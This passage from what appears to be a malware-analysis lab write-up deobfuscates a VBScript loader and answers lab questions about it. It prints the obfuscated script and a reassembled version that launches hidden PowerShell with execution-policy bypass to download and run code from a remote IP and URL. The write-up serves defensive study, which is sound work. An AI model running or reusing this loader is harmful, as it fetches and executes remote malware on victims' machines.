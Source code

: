 ```shell
LZeWX(77) = "Ie"
LZeWX(78) = "X("
LZeWX(79) = "$A"
LZeWX(80) = "12"
LZeWX(81) = "3+"
LZeWX(82) = "$B"
LZeWX(83) = "45"
LZeWX(84) = "6+"
LZeWX(85) = "$C"
LZeWX(86) = "78"
LZeWX(87) = "9)"

' Combine the parts into one string
OodjR = ""
For i = 0 To 88 - 1
    OodjR = OodjR & LZeWX(i)
Next

' Use the combinedParts in the shell execution
Set objShell = CreateObject("WScript.Shell")
objShell.Run "Cmd.exe /c POWeRSHeLL.eXe -NOP -WIND HIDDeN -eXeC BYPASS -NONI " & OodjR, 0, True
Set objShell = Nothing
```

Combined the payload by it's functions, i got this:
```shell
Set objShell = CreateObject("WScript.Shell")

payload = "[BYTe[]];$A123='IeX(New-Object NeT.WeBJeCT)';$B456='eBCLIeNT).DOWNLO';[BYTe[]];$C789='VAN(''http://45.126.209.4:222/mdm.jpg'')'.RePLaCe('VAN','ADSTRING');[BYTe[]];IeX($A123+$B456+$C789)"

objShell.Run "Cmd.exe /c powershell.exe -NoP -Window Hidden -Exec Bypass -NonI " & payload, 0, True

Set objShell = Nothing
```

By analyzing this malicious script, i could identify that the `xlm.txt` presented as a loader, while the second payload `mdm.jpg` indicated the main executable by using VBScript.

> ANSWER: `http://45.126.209.4:222/mdm.jpg`
{: .prompt-info }

#### Q2: Which hosting provider owns the associated IP address?

Since the malicous has been collected, i could grab it and maybe get more information from OSINT, in this lab - AbuseIPDB was my choice.
